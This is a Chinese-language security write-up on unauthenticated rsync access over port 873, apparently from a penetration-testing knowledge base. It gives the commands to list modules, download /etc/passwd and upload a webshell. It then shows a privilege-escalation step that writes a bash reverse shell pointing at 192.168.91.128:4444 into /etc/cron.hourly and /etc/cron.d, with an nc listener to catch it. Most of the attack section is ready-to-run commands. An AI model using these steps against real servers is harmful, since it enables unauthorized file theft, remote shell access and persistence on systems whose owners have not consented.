


Rsync 未授权访问漏洞
====================

一、漏洞简介
------------

rsync是Linux下一款数据备份工具，支持通过rsync协议、ssh协议进行远程文件传输。其中rsync协议默认监听873端口，如果目标开启了rsync服务，并且没有配置ACL或访问密码，我们将可以读写目标服务器文件。

**rsync的常用命令**

    列举整个同步目录或指定目录：
    rsync ip::
    rsync ip::xxx/
    下载文件或目录到本地：
    rsync -avz ip::xxx/xx.php /root
    rsync -avz ip::xxx/ /var/tmp
    上传文件到服务器：
    rsync -avz webshell.php ip::web/

二、漏洞影响
------------

三、复现过程
------------

`nmap`先扫一波：

    rsync rsync://www.0-sec.org:873/
    rsync rsync://www.0-sec.org:873/src 来查看模块名列表
    我们再列出src模块下的文件
    rsync rsync://www.0-sec.org:873/src/

    我们可以下载任意文件：
    rsync -av rsync://www.0-sec.org:873/src/etc/passwd ./

**提权：**

写入`shell`并赋权：

    #!/bin/bash 
    /bin/bash -i >& /dev/tcp/192.168.91.128/4444 0>&1

    chmod +x shell

将`shell`上传至`/etc/cron.hourly`：

    rsync -av shell rsync://192.168.91.130/src/etc/cron.hourly
    rsync -av shell rsync://www.0-sec.org:873/src/etc/cron.d/shell

本地监听：

    nc -nvv -lp 4444

参考链接
--------

> https://fansonfan.github.io/2019/04/20/rsync-%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/
